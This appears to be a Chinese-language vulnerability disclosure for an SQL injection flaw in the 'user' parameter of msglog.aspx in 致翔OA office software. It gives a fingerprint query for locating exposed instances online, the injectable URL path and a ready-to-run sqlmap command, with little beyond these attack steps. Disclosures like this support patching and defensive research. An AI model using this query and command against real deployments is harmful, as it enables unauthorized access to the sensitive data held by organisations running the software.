 # 致翔OA msglog.aspx SQL注入漏洞

## 漏洞描述

致翔OA msglog.aspx文件存在SQL注入漏洞，攻击者通过漏洞可获取敏感信息

## 漏洞影响

```
致翔OA
```

## 网络测绘

```
app="致翔软件-致翔OA"
```

## 漏洞复现

产品页面

![image-20220520142109952](images/202205201421236.png)

存在漏洞的文件为 `msglog.aspx`,涉及注入的参数为 user

```
/mainpage/msglog.aspx?user=1
```

SQLMap跑一下

```
sqlmap -u http://127.0.0.1/mainpage/msglog.aspx?user=1 -p user --batch
```

![image-20220520142130999](images/202205201421211.png)